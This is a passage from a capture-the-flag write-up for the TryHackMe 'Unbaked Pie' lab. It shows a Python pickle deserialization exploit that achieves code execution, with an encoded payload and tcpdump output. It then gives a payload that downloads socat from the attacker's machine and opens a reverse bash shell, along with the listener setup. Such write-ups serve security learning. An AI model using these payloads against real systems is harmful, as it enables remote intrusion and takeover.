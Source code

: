 ```py
if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:36:07]
└> python unpickle.py
[*] Before serialized: <__main__.Exploit object at 0x7f33eff30220>
[*] Serialized: b'\x80\x04\x950\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x15ping -c 4 10.9.0.253 \x94\x85\x94R\x94.'
[*] Base64 encoded: b'gASVMAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBVwaW5nIC1jIDQgMTAuOS4wLjI1MyCUhZRSlC4='
[*] Sending a GET request to /search, so we can trigger the payload...
[*] Payload sent...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:36:55]
└> tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:36:57.449598 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 1, length 64
08:36:57.449620 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 1, length 64
08:36:58.449952 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 2, length 64
08:36:58.449983 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 2, length 64
08:36:59.449998 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 3, length 64
08:36:59.450035 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 3, length 64
08:37:00.450310 IP unbaked-pie.thm > 10.9.0.253: ICMP echo request, id 631, seq 4, length 64
08:37:00.450340 IP 10.9.0.253 > unbaked-pie.thm: ICMP echo reply, id 631, seq 4, length 64
```

Nice! We have code execution!

Let's get a reverse shell!

- Setup a listener:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:38:11]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/13 08:38:12 socat[70824] N opening character device "/dev/pts/1" for reading and writing
2023/01/13 08:38:12 socat[70824] N listening on AF=2 0.0.0.0:443
```

```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.13|08:39:07]-[git://master ✗]-
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```py
return (os.system,("wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane ",))
```
